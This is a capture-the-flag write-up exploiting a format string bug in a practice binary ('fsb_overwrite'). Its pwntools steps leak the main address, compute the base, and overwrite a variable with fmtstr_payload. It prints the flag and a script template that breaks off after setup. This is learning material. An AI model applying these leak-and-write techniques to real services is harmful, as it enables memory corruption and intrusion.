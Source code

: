 ![images/formatstringbug-7.png](/images/dh-format-string/formatstringbug-7.png)

All information needed is there, now time to craft the payload.

1. Send an input `%15$p` to leak `main` address

```python
io.sendline('%15$p')
```

2. Receive the input 

```python
main_address = int(io.recvline(),16)
```

3. Calculate the base address

```python
main_offset = elf.sym['main']
base_addr = main_address - main_offset
```

4. Calculate the address of `changeme`

```python
change_me = base_addr + 0x401c #offset of changeme variable
```

5. Using pwntools built in function `fmtstr_payload` as our final payload. (Note: 6 is the i-th argument that reads the input)

```python
payload = fmtstr_payload(6, {change_me : 1337})
```


#### Payload Execution

Local

![images/formatstringbug-8.png](/images/dh-format-string/formatstringbug-8.png)

Remote

![images/formatstringbug-9.png](/images/dh-format-string/formatstringbug-9.png)

DH{b283dec57b17112a4e9aa6d5499c0f28}
# Full Script


```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)
# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
b vuln
'''.format(**locals())
# Set up pwntools for the correct architecture
exe = './fsb_overwrite'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
```